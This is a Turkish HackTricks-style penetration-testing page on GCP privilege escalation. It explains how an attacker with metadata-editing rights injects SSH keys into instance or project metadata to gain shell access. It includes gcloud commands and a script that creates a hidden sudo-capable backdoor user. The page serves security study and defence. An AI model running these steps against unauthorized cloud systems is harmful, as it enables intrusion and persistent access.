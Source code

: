 # GCP - Özel SSH Metadata Ekle

## GCP - Özel SSH Metadata Ekle

{{#include ../../../../banners/hacktricks-training.md}}

### Metadata'yı Değiştirme <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Bir örnekte metadata değişikliği, **bir saldırgan gerekli izinleri elde ederse önemli güvenlik risklerine yol açabilir**.

#### **Özel Metadata'ya SSH Anahtarlarının Dahil Edilmesi**

GCP'de, **Linux sistemleri** genellikle [Google Compute Engine için Python Linux Misafir Ortamı](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) üzerinden betikler çalıştırır. Bunun kritik bir bileşeni, **yetkilendirilmiş SSH genel anahtarlarındaki güncellemeleri** kontrol etmek için örnek metadata uç noktasını **düzenli olarak kontrol etmek** üzere tasarlanmış [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)dır.

Bu nedenle, bir saldırgan özel metadata'yı değiştirebilirse, daemon'un yeni bir genel anahtar bulmasını sağlayabilir; bu anahtar işlenip **yerel sisteme entegre edilecektir**. Anahtar, **mevcut bir kullanıcının veya `sudo` ayrıcalıkları olan yeni bir kullanıcının** `~/.ssh/authorized_keys` dosyasına eklenecektir; bu, anahtarın formatına bağlıdır. Ve saldırgan, ana bilgisayarı tehlikeye atabilecektir.

#### **Mevcut ayrıcalıklı kullanıcıya SSH anahtarı ekleme**

1. **Örnekteki Mevcut SSH Anahtarlarını İnceleyin:**

- Mevcut SSH anahtarlarını bulmak için örneği ve metadata'sını tanımlamak üzere komutu çalıştırın. Çıktıdaki ilgili bölüm `metadata` altında, özellikle `ssh-keys` anahtarı altında olacaktır.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- SSH anahtarlarının formatına dikkat edin: kullanıcı adı anahtarın önündedir ve iki nokta üst üste ile ayrılmıştır.

2. **SSH Anahtarı Metadata'sı için Bir Metin Dosyası Hazırlayın:**
- Kullanıcı adları ve bunlara karşılık gelen SSH anahtarlarının detaylarını `meta.txt` adlı bir metin dosyasına kaydedin. Bu, mevcut anahtarları korumak için gereklidir.
3. **Hedef Kullanıcı için Yeni Bir SSH Anahtarı Oluşturun (`alice` bu örnekte):**

- Yeni bir SSH anahtarı oluşturmak için `ssh-keygen` komutunu kullanın ve yorum alanının (`-C`) hedef kullanıcı adıyla eşleştiğinden emin olun.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- Yeni genel anahtarı `meta.txt` dosyasına ekleyin, örneğin örneğin metadata'da bulunan formatı taklit ederek.

4. **Örneğin SSH Anahtarı Metadata'sını Güncelleyin:**

- Güncellenmiş SSH anahtarı metadata'sını örneğe uygulamak için `gcloud compute instances add-metadata` komutunu kullanın.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Yeni SSH Anahtarı ile Örneğe Erişim Sağlayın:**

- Yeni anahtarı kullanarak SSH ile örneğe bağlanın ve hedef kullanıcı bağlamında shell'e erişin (`alice` bu örnekte).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Yeni bir ayrıcalıklı kullanıcı oluşturun ve bir SSH anahtarı ekleyin**

Eğer ilginç bir kullanıcı bulunamazsa, `sudo` ayrıcalıkları verilecek yeni bir kullanıcı oluşturmak mümkündür:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Proje düzeyinde SSH anahtarları <a href="#sshing-around" id="sshing-around"></a>

**Proje düzeyinde SSH anahtarları uygulayarak** bir bulut ortamında birden fazla Sanal Makine (VM) için SSH erişimini genişletmek mümkündür. Bu yaklaşım, projede açıkça proje genelinde SSH anahtarlarını engellemeyen herhangi bir örneğe SSH erişimi sağlar. İşte özet bir kılavuz:

1. **Proje Düzeyinde SSH Anahtarlarını Uygula:**

- `meta.txt` dosyasındaki SSH anahtarlarını projenin meta verilerine eklemek için `gcloud compute project-info add-metadata` komutunu kullanın. Bu işlem, SSH anahtarlarının projedeki tüm VM'ler tarafından tanınmasını sağlar, eğer bir VM "Proje genelinde SSH anahtarlarını engelle" seçeneğini etkinleştirmemişse.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Proje Genel Anahtarları Kullanarak Örneklerine SSH Bağlan:**
- Proje genelinde SSH anahtarları mevcut olduğunda, projedeki herhangi bir örneğe SSH ile bağlanabilirsiniz. Proje genelinde anahtarları engellemeyen örnekler, SSH anahtarını kabul ederek erişim sağlar.
- Bir örneğe SSH ile bağlanmanın doğrudan bir yöntemi, `gcloud compute ssh [INSTANCE]` komutunu kullanmaktır. Bu komut, mevcut kullanıcı adınızı ve proje düzeyinde ayarlanmış SSH anahtarlarını kullanarak erişim sağlamaya çalışır.

## Referanslar

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
